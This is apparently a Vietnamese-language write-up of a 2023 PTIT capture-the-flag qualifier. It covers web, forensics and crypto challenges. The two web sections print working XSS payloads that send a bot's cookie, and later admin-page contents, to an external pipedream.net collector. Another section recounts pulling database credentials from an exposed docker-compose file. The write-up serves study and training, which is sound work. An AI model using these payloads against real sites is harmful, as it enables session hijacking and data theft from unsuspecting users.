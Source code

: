```yaml
---
title: Writeup CTF Tuyển chọn SVATT PTIT 2023
date: 2023-03-28 10:00:00 +0700
categories: [Writeup, PTITSVATTT2023]
tags: [ctf,writeup]     # TAG names should always be lowercase
---
```



# Writeup CTF Tuyển chọn SVATT PTIT 2023

---

# Web01

![Untitled](/assets/img/PTITSVATTT/Untitled.png)

Chúng ta được cho 2 link, 1 là link challenge, 2 là link của con bot. Kinh nghiệm cho mình thấy đây là 1 bài Reflected XSS để lấy cookie

Sau khi đăng ký và đăng nhập, đây là UI của web challenge gồm 1 form để nhập note, và note được nhập sẽ hiển thị ngay bên dưới

![Untitled](/assets/img/PTITSVATTT/Untitled%201.png)

Test thử với payload đơn giản `<img src=x onerror=alert(1)`, nhận thấy trang web bị lỗi XSS. 

![Untitled](/assets/img/PTITSVATTT/Untitled%202.png)

Ý tưởng bây giờ là khai thác Reflected XSS để lấy cookie của bot. Payload để lấy cookie của bot:

```jsx
<img src=x onerror="this.src='https://eo4kqgjvne2o998.m.pipedream.net/?'+document.cookie; this.removeAttribute('onerror');">
```

Giải thích payload: Javascript được thực thi sẽ gửi GET HTTP request đến URL requestbin kèm với cookie của bot

Sau khi gửi đường link cho bot, mã Javascript được thực thi, lấy được cookie của bot

![Untitled](/assets/img/PTITSVATTT/Untitled%203.png)

Thay cookie của người dùng bằng Cookie của bot, truy cập admin panel ta sẽ lấy được flag

![Untitled](/assets/img/PTITSVATTT/Untitled%204.png)

![Untitled](/assets/img/PTITSVATTT/Untitled%205.png)

---

# Web02

![Untitled](/assets/img/PTITSVATTT/Untitled%206.png)

UI của challenge  là 1 form search

![Untitled](/assets/img/PTITSVATTT/Untitled%207.png)

Form search làm mình nghĩ ngay đến SQLi : D. Nhưng sau khi test thử với Burp Suite và sqlmap thì mình không detect được SQLi xD

dirsearch URL của challenge, tìm được 1 endpoint thú dzị là `/docker-compose.yml`

![Untitled](/assets/img/PTITSVATTT/Untitled%208.png)

Truy cập [`167.172.80.186:5000/docker-compose.yml`](http://167.172.80.186:5000/docker-compose.yml) lấy được password vào mysql db : D

![Untitled](/assets/img/PTITSVATTT/Untitled%209.png)

Chui vào db mình lấy được flag xD

![Untitled](/assets/img/PTITSVATTT/Untitled%2010.png)

---

# Web01-again

![Untitled](/assets/img/PTITSVATTT/Untitled%2011.png)

Vẫn là cái UI của bài web01 trước

![Untitled](/assets/img/PTITSVATTT/Untitled%2012.png)

vẫn là con BOT cũ

![Untitled](/assets/img/PTITSVATTT/Untitled%2013.png)

Nhưng cái khác ở đây là không thể dùng Reflected XSS để lấy cookie của bot do có flag `http-only`

![Untitled](/assets/img/PTITSVATTT/Untitled%2014.png)

Ý tưởng của mình là thay vì lấy cookie của con bot để vào được admin panel, giờ mình sẽ điều khiển con bot  lấy luôn flag về cho mình : D

POC để con bot truy cập `admin pannel` và lấy flag cho mình

```jsx
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://167.172.80.186:9999/admin.php"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); 
      const sess=this.responseText.substring(this.responseText.indexOf("ATTT"));
      req2.open("GET","https://eoisvenotwsj688.m.pipedream.net/?data="+btoa(sess),false);
      req2.send() 
   };
</script>
```

ok, giải thích qua 1 chút POC

đầu tiên bot sẽ truy cập vào trang admin

Sau đó nó sẽ lọc response để lấy ra flag theo format `ATTT{.......}`

bước cuối nó gửi flag để server của mình, mã hóa base64 để tránh việc request URL quá dài

và boom

![Untitled](/assets/img/PTITSVATTT/Untitled%2015.png)

và boom, again

![Untitled](/assets/img/PTITSVATTT/Untitled%2016.png)

---

# For01

![Untitled](/assets/img/PTITSVATTT/Untitled%2017.png)

Ok, challenge này cho chúng ta 1 file rar, sau khi giải nén cấu trúc thư mục sẽ như thế này

![Untitled](/assets/img/PTITSVATTT/Untitled%2018.png)

Tóm gọn lại là có 100 thư mục được đánh dấu từ 0-100, trong mỗi thư mục lại có 100 thư mục được đặt tên từ 0-100. Trong mỗi thư mục con lại có 100 file `.txt` `0.txt` đến `100.txt` . Nhiệm vụ của chúng ta là tìm ra flag trong đống file `.txt` đấy : D. Mình dùng python để tự động hóa quá trình tìm flag. Đây là source code:

```jsx
import os

for i in range(0,101):
    for j in range(0,101):
        for filename in os.listdir('./{}/{}/'.format(i,j)):
            f = open('./{}/{}/'.format(i,j)+filename,'r')
            r = f.read()
            if r != "almost" and r != "no" and r!="nah" and r!="you_got_it" and r!="try_again" and r!="Not_this_time" and r!="so_close" and r!="nope" and r!="better_luck_next_time":
                print(r)
```

Mình sử dụng 2 vòng lặp và đọc tất cả các file `.txt` trong thư mục con, kết quả tìm ra flag : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2019.png)

---

# Crypto01

![Untitled](/assets/img/PTITSVATTT/Untitled%2020.png)

Source code enc.cpp:

```jsx
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("res.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

Thuật toán: Lấy 4 kí tự liền nhau, kí tự đầu tiên sẽ chuyển về dạng octal, kí tự  thứ 2 là dạng decimal, kí tự thứ 3 là dạng hex và kí tự thứ 4 tiếp tục là decimal, và lặp lại như vậy đến khi hết chuỗi.

Mình hiểu thuật toán nhưng quên mất cách code c++, code python thì lú nên tức quá quay ra làm bằng tay xD. Bật 4 tab cyberchef và quẩy tầm 2,3p mình được flag ám ảnh nhất mình từng tìm được : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2021.png)